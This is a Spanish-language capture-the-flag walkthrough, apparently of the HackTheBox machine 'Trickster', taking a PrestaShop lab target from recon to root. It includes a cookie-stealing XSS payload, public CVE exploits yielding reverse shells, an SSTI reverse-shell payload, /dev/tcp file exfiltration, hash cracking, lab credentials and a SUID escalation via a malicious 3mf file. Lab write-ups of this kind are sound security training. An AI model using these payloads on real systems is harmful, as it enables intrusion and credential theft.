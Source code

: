 #XSS 
`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.34 -oG allPorts`
`nmap -p22,80 -sCV 10.10.11.34 -oN targeted`
```python
22/ssh
80/http
```


`gobuster vhost -u http://trickster.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 200 -r --append-domain`
```js
10.10.11.34     trickster.htb shop.trickster.htb
```

Utiliza un `prestashop` que es como un Wordpress para ecomerce

Encontramos en `robots.txt` el directorio `http://shop.trickster.htb/.git/`

Usaremos la herramienta [[GITHACK]] `https://github.com/lijiejie/GitHack.git`
`python3 githack http://shop.trickster.htb/.git/`

Nos traerá toda la web a nuestra maquina y la podemos ver navegando a sus directorios
Encontramos el siguiente directorio de panel de login de Prestashop `http://shop.trickster.htb/admin634ewutrx1jgitlooaj/index.php`

Encontramos la versión y encontramos que tiene un CVE `CVE-2024-34716`
`https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/`

En el PoC nos explica que podemos crear un falso archivo `.png` en el cual podemos incluir contenido JavaScript que será interpretado, por lo que se acontecería un XXS
Este archivo se puede incluir en la web `http://shop.trickster.htb/contact-us`

Creamos el fichero `test.png` con el contenido `<script src="http://10.10.14.18/malicius.js"></script>`

El servicio web hace la solicitud al recurso que hemos levantado en el server de Python

Podemos probar a listar la cookie de sesión `<script src="http://10.10.14.18/?cookie=" + document.cookie></script>`

Como el HttpOnly esta en True no nos permite obtener la cookie

EN el PoC nos dice que hay que subir un tema malicioso podemos usar el repositorio `https://github.com/aelmokhtar/CVE-2024-34716` que nos lo automatiza

Este script nos automatiza todo el proceso de ejecución devolviéndonos una Reverse Shell directamente

`python3 exploit.py --url "http://shop.trickster.htb" --email test@test.com --local-ip 10.10.14.18 --admin-path admin634ewutrx1jgitlooaj
`
Obtendremos una reverse shell como el usuario
Y hacemos un tratamiento de la TTY para que podamos trabajar mas cómodamente

En nuestro directorio acctual encontramos el directoriuo de `prestashop` buscamos por archivos de configuracion `find . -name \*conf\*` y encontramos la siguiente ruta `app/config`  buscamos por archivos que contengan la plabra password `grep -r -i "password"`y encontramos un archivo llamdo `parameters.php`

Y encontramos el usuario de la base de datos 
```ad-hint 
ps_user::prest@shop_o
```

Nos conectamos a la base de datos con el usuario y password encontrados:
`mysql -ups_user -pprest@shop_o -D prestashop`

Al haber muchas tablas se puede filtrar de la siguiente forma
`select table_name from information_schema.columns where column_name = 'email' and table_schema = database();`

Lo que nos hace es: d3e la base de datos actual de todas las tablas muéstrame todas las columnas que contengan la palabra email

Encontramos que en la tabla de empledos es donde se encuentran todos los datos mas relevantes;
`describe ps_employee;`

Obtenemos los usuarios y las contraseñas:
`select email,passwd from ps_employee;`

```ad-hint
admin@trickster.htb

$2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C

james@trickster.htb

$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm
```

Para esos hashes los cuadramos en un archivo y se los pasamos ha [[HASCAT]] el cual nos dirá diferentes modos que debemos de probar para decodearlo ` hashcat hashes /usr/share/wordlists/rockyou.txt -O `

Nos indica que son bcrypt y tendremos que usar el siguiente parámetro
`hashcat hashes /usr/share/wordlists/rockyou.txt -O -m 3200`

Encontramos la contraseña `alwaysandforever` para el usuario `james`
Y conseguiremos pivotar a este usuario

```ad-hint
james::alwaysandforever
```
## Escalada de privilegios
En la búsqueda de binarios SUID no encontramos nada que podamos escalar `find / -perm -4000 2>/dev/null`

Buscaremos capabilities `getcap -r / 2>/dev/null` y tampoco encontramos ninguna que nos pueda servir

Buscamos los puertos abiertos `ss -nltp` tampoco encontramos nada

Buscamos en los procesos con `ps -faux` tampoco encontramos nada útil

Al hacer `hostname -I` encontramos otra IP diferente, encontrando un docker instalado
Para hacer un reconocimiento de las maquinas docker podemos hacer un código para identificar las IP que hay
```bash
#!/bin/bash

for i in $(seq 1 254); do
        timeout 1 bash -c "ping -c 1 171.17.0.$i" &>/dev/null && echo "[+] Host 172.17.0.$i - ACTIVE" &
done; wait
```

Nos encuentra activo el host `.2`

Vamos a ver que puertos tiene abiertos la maquina creando el siguiente script
```bash
#!/bin/bash

for port in $(seq 1 65535); do
        timeout 1 bash -c "echo '' > /dev/tcp/172.17.0.2/$port" &>/dev/null && echo "[+] Puerto $port - OPEN" &
done; wait
```

Nos encuentra el puerto `5000` abierto
Y haciendo un `curl` vemos que se trata de una pagina web `curl 172.17.0.2:5000`

Para desde nuestro equipo poder ver la maquina te haga port fordwarding con ssh `ssh james@10.10.11.34 -L 5000:172.17.0.2:5000`

Ahora desde buestra maquina accedemos a `http://localhost:5000` y nos muestra como un panel de login corriendo con CHANGEDETECTION.IO v0.45.20

Buscamos esto en internet a ver si encontramos información sobre ello vemos que tiene un un `CVE-2024-32651` el cual permite `SSTI` que permite acabarlo en un `RCE`

Primero deberemos de ganar acceso a la interfaz y vemos que se reutiliza la password de james y estaríamos dentro de la web

Seguiremos el PoC `https://github.com/advisories/GHSA-4r7v-whpg-8rx3` lo primero que tenemos que hacer es crear un falso `index.html` y levantar un servidor con Python

Añadimos la url apuntando al servidor que hemos levantado 
En edit cambiamos el timer a menos tiempo y en la zona de notifications añadimos:
- Notification URL list `get://10.10.11.34:8882`
- Notification body `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i /dev/tcp/<IP_Atacante>/445 0>&1"').read() }}`

En nuestra maquina atacante nos ponemos en escucha `nc -nlvp 445` y realizamos cualquier cambio en el `index.html` para obtener la shell
Hemos obtenido una shell como root dentro del contenedor  con IP `172.17.0.2:5000`  una vez obtenida la shell hacemos un tratamiento de esta

Si navegamos por los directorios encontramos en la raíz un directorio `/datastore`
En el directorio `Backup` encontramos un `.zip` nos lo traemos a nuestra maquina atacante de la siguiente forma:
Maquina atacante -> `nc -nlvp 443 > archivo.zip`
Maquina victima -> `cat < archivo.zip > /dev/tcp/>IP_Atcante>/443`

Descomprimimos el archivo, y vemos que en una carpeta hay un archivo `.br`
```ad-info
La esxtension .br pertenece a un tipo de compresion realizado con brotli
```

Descomprimimos el archivo con `brotli -d archivo.br`
Podemos ver que se nos muestra las credenciales de adam
```ad-hint
adam::adam_admin992
```

Con el este usuario podemos ver que al hacer `sudo -l` tenemos permisos de ejecución en `/opt/PrusaSlicer/prusaslicer` buscamos en internet diferentes tipos de explotaciones.
En `/tmp` creamos un archivo `exploit.sh` en este añadimos un comando el cual aporte permisos SUID a la `/bin/bash` usando `chmod u+s /bin/bash` nos descargamos el archivo `evil.3mf` en nuestra maquina atacante
`https://github.com/suce0155/prusaslicer_exploit/blob/main/evil.3mf` y nos lo compartimos con la maquina victima a `/tmp`

Ejecutamos `/opt/PrusaSlicer/prusaslicer -s evil.3mf` se la habrán cambiado los permisos a las bash así que ejecutamos `bash -p` y obtendremos una bash como root
